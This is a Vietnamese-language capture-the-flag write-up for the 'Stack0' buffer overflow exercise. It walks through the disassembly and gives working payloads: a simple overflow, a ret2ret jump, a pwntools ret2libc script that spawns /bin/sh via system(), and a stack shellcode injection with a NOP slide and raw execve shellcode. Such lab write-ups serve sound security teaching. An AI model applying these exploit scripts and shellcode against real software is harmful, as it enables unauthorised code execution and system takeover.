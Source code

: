 # Stack0

Đầu tiên ta chạy thử chương trình, chương trình yêu cầu nhập input. 

![run](run.png)

`try again?`
Vậy cùng xem thử qua hàm main.

![main](disass.png)

t thấy chương trình dùng gets để nhập input vào `[esp+0x1c]`. Sau đó so sánh `[esp+0x5c]` với 0, nếu = 0 in ra `0x8048529 (try again?)` nếu ko thì in ra `0x8048500(you have changed the 'modified' variable)`. Vì ban đầu `[esp+0x5c]` được gán giá trị = 0 nên mục đích của chall này là thay đổi giá trị cua `[esp+0x5c]` để in ra *you have changed the 'modified' variable*. Ta tính được size của `[esp+0x1c]` 0x5c - 0x1c = 64 byte. vậy cần nhập một chuỗi > 64 byte để ghi đè giá trị của `[esp+0x5c]`.

## Solution

### Buffer Overflow

`python -c 'print "a"*65 | ./stack0`

### Ret2ret

Ta có thể overflow sang EIP để jump về `0x08048419`. Mình dùng Gdb để có đc địa chỉ của ESP,EBP.

![ebp-esp](ebp-esp.png)

`padding = [ebp]-[esp+0x1c] + ebp(4byte) = 80`
payload: `python -c 'print "a"*80 + "\x19\x84\x04\x08"' | ./stack0`
![ret2ret](ret2ret.png)

## Spawn Shell

### return về hàm system()

thay vì để jump về `0x08048419` ta có thể return về hàm system() để spawn shell.
![shell](shell.png)

```python
#!/usr/bin/python3
from pwn import *
elf = context.binary = ELF('./stack0')
rop = ROP(elf)

#system() address
system_addr = 0xf7e11790
info('system_addr: ' + hex(system_addr))
#/bin/sh address
sh_addr = 0xf7dd0000+ 0x18e363 #base address + offset
info('sh_addr: ' + hex(sh_addr))
padding = 80*b'b' #padding tính từ phần trên
payload = padding + p32(system_addr) + p32(0xdeadbeef) + p32(sh_addr)

p = process('./stack0')
p.sendline(payload)
p.interactive()
```

![shell2](shell2.png)

### inject code

Check qua phân vùng stack, mình thấy nó có quyền excute. Nên mình sẽ inject shellcode vào stack.

```python
#!/usr/bin/python3
from pwn import *
elf = context.binary = ELF('./stack0')
rop = ROP(elf)

padding = b'a'*80
eip = p32(0xffffd250+100) # esp addr + offset nop_slide

nop_slide = b"\x90"*400

shellcode = b"jhh\x2f\x2f\x2fsh\x2fbin\x89\xe3jph\x01\x01\x01\x01\x814\x24ri\x01,1\xc9Qj\x07Y\x01\xe1Qj\x08Y\x01\xe1Q\x89\xe11\xd2j\x0bX\xcd\x80"

payload = padding + eip + nop_slide + shellcode

p = process('./stack0')
p.sendline(payload)
p.interactive()
```

![shell3](shell3.png)
